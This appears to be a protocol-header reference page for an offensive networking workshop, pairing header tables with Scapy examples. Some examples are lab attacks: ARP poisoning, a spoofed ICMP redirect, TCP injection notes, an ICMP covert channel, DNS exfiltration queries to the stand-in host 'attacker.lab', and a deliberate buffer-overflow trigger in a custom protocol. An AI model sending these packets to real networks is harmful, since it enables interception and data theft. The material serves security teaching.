









# Protocol Headers Reference

Header diagrams for every protocol covered in the workshop, rendered in network byte order
(big-endian, most-significant bit first). Each row is 32 bits wide. Bit positions are
zero-indexed from the left.

> Diagrams use [Mermaid `packet-beta`](https://mermaid.js.org/syntax/packet.html) (Mermaid ≥ 10.8).
> If your viewer does not render them, paste the code block at [mermaid.live](https://mermaid.live).

---

## Table of Contents

| Layer | Protocol | Workshop module |
|-------|----------|-----------------|
| L2 | [Ethernet II](#ethernet-ii) | Module 1 |
| L2 | [ARP](#arp-address-resolution-protocol) | Module 3 |
| L3 | [IPv4](#ipv4) | Modules 1–4 |
| L3 | [ICMP — Echo](#icmp-echo-requestreply) | Modules 1, 6 |
| L3 | [ICMP — Redirect](#icmp-redirect-type-5) | Module 3 |
| L4 | [TCP](#tcp) | Modules 1, 2, 4 |
| L4 | [UDP](#udp) | Modules 1, 5, 6 |
| L7 | [DNS](#dns-header) | Module 6 |
| Custom | [DC34 Protocol](#dc34-custom-protocol) | Module 5 |

---

## Ethernet II

**Scapy layer:** `Ether`  **RFC:** 802.3 / DIX Ethernet II  **Header size:** 14 bytes



| Field | Bits | Notes |
|-------|------|-------|
| Destination MAC | 48 | `ff:ff:ff:ff:ff:ff` = broadcast (used in ARP requests) |
| Source MAC | 48 | Sender's hardware address |
| EtherType | 16 | Identifies the encapsulated protocol |

**Scapy:** `Ether(dst="ff:ff:ff:ff:ff:ff", src="aa:bb:cc:dd:ee:ff", type=0x0806)`

---

## ARP (Address Resolution Protocol)

**Scapy layer:** `ARP`  **RFC:** 826  **Header size:** 28 bytes (IPv4 over Ethernet)



| Field | Bits | Notes |
|-------|------|-------|
| Operation | 16 | `1` = ARP request · `2` = ARP reply |
| Sender MAC | 48 | Real sender MAC (poisoned to attacker MAC in module 3) |
| Sender IP | 32 | Claimed IP (spoofed to gateway IP in gratuitous ARP) |
| Target MAC | 48 | `00:00:00:00:00:00` in requests; reply target in replies |
| Target IP | 32 | IP being resolved |

**Scapy:** `ARP(op=2, psrc="192.168.56.254", hwsrc="aa:bb:cc:dd:ee:ff", pdst="192.168.56.2")`

---

## IPv4

**Scapy layer:** `IP`  **RFC:** 791  **Header size:** 20 bytes (no options)



| Field | Bits | Workshop relevance |
|-------|------|--------------------|
| IHL | 4 | Internet Header Length in 32-bit words; `5` = no options (20 bytes) |
| Total Length | 16 | Whole packet size; used in fragmentation math |
| Identification | 16 | Same value across all fragments of one datagram |
| Flags | 3 | Bit 1 = DF (Don't Fragment) · Bit 2 = MF (More Fragments) |
| Fragment Offset | 13 | Position of this fragment in 8-byte units |
| TTL | 8 | Decremented each hop; starting value reveals OS (module 2) |
| Protocol | 8 | `6`=TCP · `17`=UDP · `1`=ICMP |

**IP Options** (module 4 demo): Loose Source and Record Route (LSRR, type `0x83`),
Record Route (type `0x07`), Timestamp (type `0x44`) all live in the Options field when IHL > 5.

**Scapy:** `IP(dst="192.168.56.2", ttl=64, flags="MF", frag=0)`

---

## ICMP Echo Request/Reply

**Scapy layer:** `ICMP`  **RFC:** 792  **Header size:** 8 bytes + data



| Field | Bits | Notes |
|-------|------|-------|
| Type | 8 | `8` = Echo Request · `0` = Echo Reply |
| Code | 8 | Always `0` for echo |
| Identifier | 16 | Matches request to reply (process ID by convention) |
| Sequence Number | 16 | Increments per ping; carries covert data in module 6 |
| Data | variable | Arbitrary payload — ICMP C2 channel encodes commands here |

**Scapy:** `IP(dst="192.168.56.2") / ICMP(type=8, id=0x42, seq=1) / Raw(b"covert data")`

---

## ICMP Redirect (Type 5)

**Scapy layer:** `ICMP`  **RFC:** 792  **Header size:** 8 bytes + original IP header excerpt  **Module:** 3



| Field | Bits | Notes |
|-------|------|-------|
| Type | 8 | `5` = Redirect |
| Code | 8 | `1` = redirect for host (most common in module 3 attack) |
| Gateway IP | 32 | Attacker's IP — the spoofed "better" next-hop |
| Original IP hdr | 160 | Header of the packet that triggered the redirect |

The kernel accepts this only if `net.ipv4.conf.all.accept_redirects = 1`.

**Scapy:** `IP(src="192.168.56.254", dst="192.168.56.2") / ICMP(type=5, code=1, gw="192.168.56.1")`

---

## TCP

**Scapy layer:** `TCP`  **RFC:** 793  **Header size:** 20 bytes (no options)



| Field | Bits | Workshop relevance |
|-------|------|--------------------|
| Sequence Number | 32 | Tracks bytes sent; must be correct to inject (module 4) |
| Acknowledgment Number | 32 | Next expected byte from peer; used in session hijacking |
| Data Offset | 4 | Header length in 32-bit words; `5` = no options (20 bytes) |
| SYN | 1 | Set in the first packet of a handshake; used in SYN scanning and SYN flood |
| ACK | 1 | Set after initial SYN; required on all injected packets |
| PSH | 1 | Push data to application immediately; set on injected payload packets |
| RST | 1 | Abruptly close connection; used in `rst_injector.py` |
| FIN | 1 | Graceful close |
| Window Size | 16 | Receive buffer size; distinctive per OS (used in fingerprinting, module 2) |

**TCP Options** (module 2 OS fingerprinting): `MSS`, `SAckOK`, `Timestamp`, `NOP`, `WScale`
appear here when Data Offset > 5. Option order is OS-specific.

**Scapy:** `TCP(sport=RandShort(), dport=80, flags="S", seq=RandInt())`

---

## UDP

**Scapy layer:** `UDP`  **RFC:** 768  **Header size:** 8 bytes



| Field | Bits | Notes |
|-------|------|-------|
| Length | 16 | Includes 8-byte UDP header + payload |
| Checksum | 16 | Optional in IPv4; covers UDP pseudo-header + payload |

UDP carries DNS queries (module 6) and is used in protocol fuzzing targets (module 5).

**Scapy:** `IP(dst="192.168.56.2") / UDP(dport=53) / DNS(rd=1, qd=DNSQR(qname="example.com"))`

---

## DNS Header

**Scapy layer:** `DNS` / `DNSQR` / `DNSRR`  **RFC:** 1035  **Header size:** 12 bytes



| Field | Bits | Notes |
|-------|------|-------|
| QR | 1 | `0` = query · `1` = response |
| Opcode | 4 | `0` = standard query |
| RD | 1 | Recursion Desired — set by client |
| RA | 1 | Recursion Available — set by resolver |
| RCODE | 4 | `0` = no error · `3` = NXDOMAIN |
| QDCOUNT | 16 | Number of questions |
| ANCOUNT | 16 | Number of answer resource records |

**DNS Question Section** (follows the 12-byte header):

```
┌───────────────────────────────────┐
│ QNAME  (variable, dot-encoded)    │  e.g. aGVsbG8.attacker.lab
├───────────────┬───────────────────┤
│ QTYPE (16b)   │ QCLASS (16b)      │  QTYPE=A(1), QCLASS=IN(1)
└───────────────┴───────────────────┘
```

In module 6 DNS exfiltration, the `QNAME` subdomain label carries base32-encoded file
chunks — e.g. `chunk1data.attacker.lab`. Each query exfiltrates up to 63 bytes per label.

**Scapy:** `DNS(rd=1, qd=DNSQR(qname="aGVsbG8.attacker.lab", qtype="A"))`

---

## DC34 Custom Protocol

**Scapy layer:** `DC34Proto` (defined in `module5/custom_proto.py`)
**Transport:** TCP port 9000  **Module:** 5



| Field | Bytes | Notes |
|-------|-------|-------|
| Magic | 2 | `0xDC34` — invalid magic triggers a server error |
| Opcode | 1 | Command byte (see table below) |
| Payload Length | 2 | Number of bytes that follow; mismatch triggers the module 5 overflow |
| Payload | variable | Command argument or response data |

**Opcode table:**

| Hex | Name | Direction |
|-----|------|-----------|
| `0x01` | PING | client → server |
| `0x02` | PONG | server → client |
| `0x03` | ECHO | client → server (server echoes payload) |
| `0x04` | UPPER | client → server (server uppercases payload) |
| `0x05` | STATS | client → server |
| `0x06` | QUIT | client → server |
| `0xEE` | ERROR | server → client |
| `0xFF` | DEBUG | triggers buffer overflow when `length > 64` |

**Vulnerability (module 5):** sending opcode `0xFF` with `Payload Length > 64` triggers a
stack-based buffer overflow in `target_server.py` because it copies `length` bytes into a
64-byte stack buffer without bounds checking.

**Scapy:**
```python
from module5.custom_proto import DC34Proto, MAGIC
pkt = IP(dst="192.168.56.2") / TCP(dport=9000) / DC34Proto(magic=MAGIC, opcode=0x03) / Raw(b"hello")
```
